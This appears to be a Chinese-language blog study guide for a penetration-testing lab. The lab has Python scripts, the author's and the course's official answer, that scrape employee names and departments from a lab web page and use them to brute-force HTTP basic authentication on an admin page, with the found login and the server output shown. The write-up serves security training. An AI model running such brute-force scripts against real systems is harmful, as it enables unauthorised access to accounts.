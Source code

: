 ```yaml
---
layout: post
title: "Pentester Scripting - Study Guide"
date: "2021-10-26"
author: "r3kind1e"
header-img: "img/post-bg-Penetration Testing Student.png"
catalog:    true
tags: 
    - Penetration Testing Student
    - Penetration Testing Prerequisites
    - Python
---
```

# Python辅助开发

## 设想

使用您新获得的 Python 知识，创建一个程序，该程序将从网页中收集关键字并使用它们对暴露的管理区域执行暴力攻击。

## 目标

本实验室的目标是：

- 使用 Python 从网页中收集姓名和部门
- 将这些名称提供给基于 Python 的暴力破解机制，这将帮助您获得对管理区域的访问权限

## 你会学到什么

在本实验中，您将了解：

- 使用 Python 进行网页抓取
- Python Requests 和 BeautifulSoup 模块的基本用法
- 用 Python 编写一个简单的暴力破解脚本

**参考**

[get started with Requests.](https://docs.python-requests.org/en/master/user/quickstart/#make-a-request)

[Beautiful Soup 4.4.0 文档](https://www.crummy.com/software/BeautifulSoup/bs4/doc.zh/)



## 任务 1：连接到虚拟环境并浏览网页

实验室的范围是**172.16.120.0/24。**

使用提供的 VPN 文件连接到虚拟环境。然后，导航到**http://172.16.120.120**并通过它来识别任何功能。



## 任务 2：用 Python 开发一个暴力破解脚本，该脚本将使用员工详细信息作为凭据

员工姓名被用作用户名的情况并不少见。看到员工的部门被用作密码的情况并不少见。公司网站通常包含这些信息。

手动收集此类信息可能是一个乏味的过程。因此，使用 Python 收集它们（抓取它们）并创建一个暴力破解脚本，该脚本将使用收集到的信息作为凭据。对管理区域使用暴力破解脚本。

在此任务中，您应该：

- 使用 Python 的“requests”库
- 使用 Python 的“beautifulsoup”库
- 注意基本的认证机制



**我写的代码：**

```python
import requests
from bs4 import BeautifulSoup


def getContent(tag_list):
    li = []
    for element in tag_list:
        element = element.get_text()
        li.append(element)
    return li


r = requests.get('http://172.16.120.120')
html_doc = r.text
soup = BeautifulSoup(html_doc, 'html.parser')
names = soup.find_all(id="name")
names = getContent(names)
uniqnames = sorted(set(names))
departments = soup.find_all(id="department")
departments = getContent(departments)
uniqdepartments = sorted(set(departments))
for name in uniqnames:
    for department in uniqdepartments:
        a = requests.get('http://172.16.120.120/admin.php', auth=(name, department))
        if a.status_code == requests.codes.ok:
            print("Find username '{}' and password '{}' login in successfully.".format(name, department))
```

**参考：**[Python请求库如何使用单个令牌传递授权标头](https://stackoverflow.com/questions/19069701/python-requests-library-how-to-pass-authorization-header-with-single-token)

运行结果：

```python
Find username 'Zack' and password 'Management' login in successfully.
```

使用得到的账号密码登录管理员后台：`172.16.120.120/admin.php`

```ini
Hi Admin! Welcome back.

APACHE_LOCK_DIR='/var/lock/apache2'
APACHE_LOG_DIR='/var/log/apache2'
APACHE_PID_FILE='/var/run/apache2/apache2.pid'
APACHE_RUN_DIR='/var/run/apache2'
APACHE_RUN_GROUP='www-data'
APACHE_RUN_USER='www-data'
IFS=' 	
'
LANG='C'
OPTIND='1'
PATH='/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin'
PPID='1591'
PS1='$ '
PS2='> '
PS4='+ '
PWD='/var/www/html'
```



**官方参考答案：**

```python
import requests
from bs4 import BeautifulSoup as bs4


def downloadPage(url):
    r = requests.get(url)
    response = r.content
    return response


def findNames(response):
    parser = bs4(response, 'html.parser')
    names = parser.find_all('td', id='name')
    output = [] # initialize a list named "output"
    for name in names:
        output.append(name.text)
    return output


def findDepts(response):
    parser = bs4(response, 'html.parser')
    names = parser.find_all('td', id='department')
    output = []
    for name in names:
        output.append(name.text)
    return output


def getAuthorized(url, username, password):
    r = requests.get(url, auth=(username, password))
    if str(r.status_code) != '401':
        print("\n[!] Username: " + username + " Password: " + password + " Code: " + str(r.status_code) + "\n")


page = downloadPage("http://172.16.120.120")

names = findNames(page)
uniqNames = sorted(set(names))

depts = findDepts(page)
uniqDepts = sorted(set(depts))

print("[+] Working... ")
for name in uniqNames:
    for dept in uniqDepts:
        getAuthorized("http://172.16.120.120/admin.php", name, dept)
```

